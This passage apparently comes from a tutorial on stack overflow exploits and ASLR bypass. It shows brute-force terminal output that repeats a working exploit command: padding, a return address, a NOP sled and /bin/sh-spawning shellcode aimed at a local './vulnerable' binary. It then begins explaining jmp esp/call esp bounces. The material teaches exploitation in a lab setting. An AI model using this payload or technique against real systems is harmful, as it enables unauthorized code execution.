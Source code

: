 ``` {.example}
./brute_force.sh: line 10: usleep: command not found
16 sp bfddb220

./brute_force.sh: line 11: 16382 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
17 sp bfddb220

./brute_force.sh: line 11: 16390 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
18 sp bfddb220

./brute_force.sh: line 11: 16398 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
19 sp bfddb220

./brute_force.sh: line 11: 16406 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
20 sp bfddb220

$ 

```

This time it took 20 attempts to get it ... the next time, maybe more,
maybe less. But the odds are ever in our favor :)

Bouncing to Defeat ASLR
=======================

One thing we learned by brute forcing ASLR is that randomness may not be
as random as we want it to be. However, things get worse when something
is completely un-random. It doesn't help that the stack is random if
some other part of the code is not random. If that non-random region
happened to hold some instruction that would be useful, and it was
always in that same spot, then we could use it as part of our exploit.

Call/Jmp esp bounce
===================

What are we looking for exactly? Well there are two instructions that
are particularly useful: `jmp esp` and `call esp`. These two
instructions are super useful due to what happens right before the
return address. Consider the `leave` and `ret` commands, which are
equivalent to the following:

